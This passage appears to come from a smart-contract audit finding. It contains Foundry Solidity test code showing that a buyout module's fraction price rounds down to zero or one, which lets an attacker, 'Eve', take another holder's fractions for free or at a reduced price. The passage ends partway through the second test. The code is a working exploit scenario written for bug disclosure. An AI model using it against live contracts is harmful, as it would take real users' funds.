 I've added the following tests to `test/Buyout.t.sol`.

```solidity

    // add Eve to the list of users 
    function setUp() public {
        setUpContract();
        alice = setUpUser(111, 1);
        bob = setUpUser(222, 2);
        eve = setUpUser(333, 3);

        vm.label(address(this), "BuyoutTest");
        vm.label(alice.addr, "Alice");
        vm.label(bob.addr, "Bob");
        vm.label(eve.addr, "Eve");
    }

    ///////////////////////////////////

    // a scenario where the price is zero, and the proposer ends up loosing all his fractions 
    function test_bugFractionPriceIsZero() public{
        uint totalSupply = 21e17;
        uint BOB_INITIAL_BALANCE = totalSupply / 2;
        initializeBuyout(alice, bob, totalSupply, BOB_INITIAL_BALANCE, true);

        // Bob starts a buyout with 1 ether for the other half of total fractions
        bob.buyoutModule.start{value: 1 ether}(vault);

        eve.buyoutModule.buyFractions{value: 0}(vault, BOB_INITIAL_BALANCE);

        // Eve got all Bob's fractions for the very tempting price of 0
        assertEq(getFractionBalance(eve.addr), BOB_INITIAL_BALANCE);
    }


    ////////////////////////////////

    // a scenario where the price is 1, and the fraction price ends up being 
    // 50% of intended price.
    // The user who cashes his fractions after the sale gets the difference (0.9 ether in this case).
    function test_bugFractionPriceIsOne() public{
        uint totalSupply = 11e17;
        uint BOB_INITIAL_BALANCE = totalSupply / 10;
        initializeBuyout(alice, bob, totalSupply, BOB_INITIAL_BALANCE, true);

        uint aliceFractionBalance =  totalSupply * 9 / 10;
        uint256 buyoutPrice = 2 ether;
        uint256 fractionPrice = buyoutPrice / totalSupply;
        assertEq(fractionPrice, 1);

        // We need to approve the buyout even though Eve doesn't hold any fractions
        eve.ferc1155 = new FERC1155BS(address(0), 333, token);
        setApproval(eve, buyout, true);

        eve.buyoutModule.start{value: buyoutPrice}(vault);
        // alice selling all her fractions
        alice.buyoutModule.sellFractions(vault, aliceFractionBalance);

        // 4 days till buyout ends
        vm.warp(block.timestamp + 4.1 days);

        bob.buyoutModule.end(vault, burnProof);

```